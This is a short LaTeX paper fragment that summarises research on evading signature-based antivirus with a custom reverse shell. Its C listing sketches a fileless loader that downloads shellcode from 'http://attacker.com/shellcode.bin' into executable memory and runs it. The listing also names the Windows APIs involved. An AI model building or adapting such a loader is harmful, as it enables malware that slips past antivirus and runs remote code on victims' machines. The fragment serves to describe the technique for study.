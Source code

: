 \documentclass[11pt,conference]{IEEEtran}
\begin{document}
\subsection{Research Methodology}

The academic paper \textit{Evading Signature-Based Antivirus Software Using Custom Reverse Shell Exploit} presents a novel architecture:

\textbf{Key Innovation: Shellcode Separation}
\begin{enumerate}
    \item Shellcode NOT embedded in executable
    \item Stored on remote HTTP/HTTPS server
    \item Downloaded at runtime into allocated memory
    \item Executed directly from memory (fileless)
\end{enumerate}

\subsection{Implementation Details}

\textbf{Modified Payload Structure:}
\begin{lstlisting}[language=C]
// Standard Metasploit: shellcode embedded
unsigned char shellcode[] = "\xfc\x48\x83...";
((void(*)())shellcode)();

// Custom approach: download shellcode
HINTERNET hInternet = InternetOpen(...);
HINTERNET hConnect = InternetOpenUrl(hInternet,
    "http://attacker.com/shellcode.bin", ...);

LPVOID exec_mem = VirtualAlloc(NULL, shellcode_size,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

InternetReadFile(hConnect, exec_mem, ...);
((void(*)())exec_mem)();
\end{lstlisting}

\textbf{Critical APIs Used:}
\begin{itemize}
    \item \texttt{InternetOpen/InternetOpenUrl}: HTTP/HTTPS connectivity
    \item \texttt{VirtualAlloc}: Allocate RWX memory region
    \item \texttt{InternetReadFile}: Read shellcode into memory
    \item Function pointer cast: Execute from memory address
\end{itemize}
\end{document}

